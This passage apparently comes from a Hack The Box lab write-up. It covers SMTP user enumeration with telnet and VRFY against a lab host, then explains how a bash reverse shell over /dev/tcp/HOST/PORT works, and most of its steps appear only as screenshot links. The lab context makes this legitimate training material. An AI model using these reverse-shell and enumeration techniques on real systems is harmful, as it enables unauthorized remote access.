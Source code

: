 ![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/73.jpg)

==log into smtp server==
```bash
telnet 10.10.10.7 25
```


![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/74.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/75.jpg)

```bash
VRFY username@localhost
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/76.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/77.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/78.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/79.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/80.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/81.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/82.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/83.jpg)

>- This snippet runs a new interactive instance of bash (`bash -i`), on a TCP connection to the specified port on the specified host which is created for the duration of the bash process. 

>- Standard output and standard error are sent through this connection (`>& /dev/tcp/HOST/PORT`), and standard input is read through this connection (`0>&1` — this should be `0<&1` but `0>&1` works too).

>- There is no port forwarding going on. Obviously, a TCP server of some kind has to be listening and accepting connections on that HOST:PORT, and the firewall has to let the connection through.

- An "**ipp**" **URL** is used to specify the network location of a print service that supports the **IPP** Protocol (RFC 2910), or of a network resource (for example, a print job) managed by such a print service.


- Previous less shell we get here we can get higher level shell

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/84.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/85.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/86.jpg)
